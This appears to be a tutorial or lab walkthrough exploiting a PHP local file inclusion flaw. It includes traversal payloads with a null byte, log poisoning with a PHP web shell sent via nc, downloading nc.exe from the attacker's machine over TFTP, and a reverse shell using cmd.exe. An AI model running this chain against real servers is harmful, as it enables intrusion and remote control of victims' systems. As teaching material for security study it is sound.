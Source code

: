 Vulnerability:
```php
if (isset( $_GET['LANG'] ) ) { $lang = $_GET['LANG'];}
else { $lang = 'en';}
include( $lang . '.php' );
```

With this, you can access files that are on the system by changing the value of the `LANG` attribute and using directory path traversal. But notice in the vulnerable code, it appends `.php` to the end, to bypass that in PHP versions below 5.3, use a null byte (`%00`):
```
LANG=../../../../../../../../windows/system32/drivers/etc/hosts%00
```

If we could get PHP code written to somewhere on the server filesystem, we can get a shell. Assuming, we can't directly upload a file to the remote filesystem, we can contaminate log files to include PHP code:
```sh
$ nc 192.168.1.23 80
<?php echo shell_exec($_GET['cmd']);?>


HTTP/1.1 400 Bad Request
```

This connection results in the following text written to the Apache log files located in `C:\xampp\apache\logs\access.log`, effectively introducing PHP code into a file on the local filesystem of the webserver:
```
192.168.1.23 - - [17/Apr/2013:06:22:00 -0400] " <?php echo shell_exec($_GET['cmd']);?>" 400 1047
```

Let's try including that log file and executing the malicious PHP code stored within it, by putting the pathname into the `LANG` attribute, and putting `ipconfig` in the `cmd` attribute:
```
http://192.168.1.23/addguestbook.php?name=hi&comment=&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00
```

The result may be a little hard to see, as the entire log file will be dumped along with the command's output.

Let's get a shell now by transferring over "nc.exe" to the webserver using the TFTP technique. First, start the TFTP server on the attacker machine with `atftpd --daemon --port 69 /tftp` and copying "nc.exe" over to the hosting directory with `cp /usr/share/windows-binaries/nc.exe /tftp`. Now execute the `tftp` on the webserver using LFI. Remember to URL encode the command string within the "cmd" attribute:
```
http://192.168.1.23/addguestbook.php?name=hi&comment=&cmd=tftp+-i+[kali ip]+get+nc.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00
```

The webpage will start to hang for a while, as it awaits the output from the `tftp` command that is downloading "nc.exe". Once done, execute the downloaded "nc.exe" and create a reverse shell:
```
http://192.168.1.23/addguestbook.php?name=hi&comment=&cmd=nc.exe+[kali ip]+[port]+-e+cmd.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00
```
